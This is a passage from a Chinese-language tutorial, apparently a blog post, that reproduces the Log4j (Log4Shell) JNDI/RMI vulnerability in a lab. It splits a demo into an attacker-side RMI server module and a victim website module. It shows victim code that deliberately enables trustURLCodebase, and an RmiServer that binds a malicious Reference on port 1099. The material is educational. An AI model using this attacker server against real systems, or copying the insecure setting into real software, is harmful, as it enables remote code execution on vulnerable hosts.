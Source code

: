 ## 重现真实场景漏洞

在log4j-all模块中，我们的所有程序都是在同一个代码模块中的，也就是都在同一个项目中，真实的环境是：RMI服务运行在骇客的本地电脑或者自己的服务器上，而远程站点会运行在远程服务器上。接下来，我们就开始模拟一个更加贴合真实环境的场景。

### 模拟真实场景项目说明

为了模拟真实场景，这里，我将log4j-all模块继续拆分成log4j-rmi模块和log4j-website模块，其中，log4j-rmi模块模拟运行在骇客本地或自己服务器上的RMI服务，而log4j-website模块模拟远程站点。

![2022-05-30-007](https://binghe001.github.io/assets/images/hack/log4j/2022-05-30-007.png)

### log4j-website模块代码分析

在log-website模块中的代码比较简单，整体上在resources目录下有一个log4j2.xml文件，内容与log4j-all模块的log4j2.xml文件内容相同。在log-website模块的`io.binghe.log4j`包中存在一个Log4jDemo类，代码也与log4j-all模块中的Log4jDemo类的代码基本相同（有稍许不同）。这里，为了模拟远程站点一般部署在远程服务器上，这里将模拟远程站点的Log4jDemo类单独拆分成一个Maven模块工程。log4j-website模块代码结构如下所示。

![2022-05-30-008](https://binghe001.github.io/assets/images/hack/log4j/2022-05-30-008.png)

**注意：在log-website模块中的Log4jDemo类的main()方法中会新增如下两行代码。**

```java
System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
```

好了，这就是在log-website模块下模拟的远程站点的Log4jDemo类。

### log4j-rmi模块代码分析

我们将log4j-all模块中模拟骇客本地RMI服务的RmiObj类和RmiServer类拆分到了log4j-rmi模块。log4j-rmi模块代码结构如下所示。

![2022-05-30-009](https://binghe001.github.io/assets/images/hack/log4j/2022-05-30-009.png)



其中，RmiObj类与log4j-all中的RmiObj类相同。而RmiServer类比log4j-all模块中的RmiServer类有稍许不同。我们来看下在log4j-rmi模块中的RmiServer类，如下所示。

```java
/**
 * @author binghe (公众号：冰河技术)
 * @version 1.0.0
 * @description 模拟漏洞的RMIServer
 */
public class RmiServer {

    public static void main(String[] args){
        try{
            LocateRegistry.createRegistry(1099);
            Registry registry = LocateRegistry.getRegistry();

            System.out.println("RMI Listener 1099 port");
            Reference reference = new Reference("RmiObj", "RmiObj", null);

            ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
            registry.rebind("test", referenceWrapper);

        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```
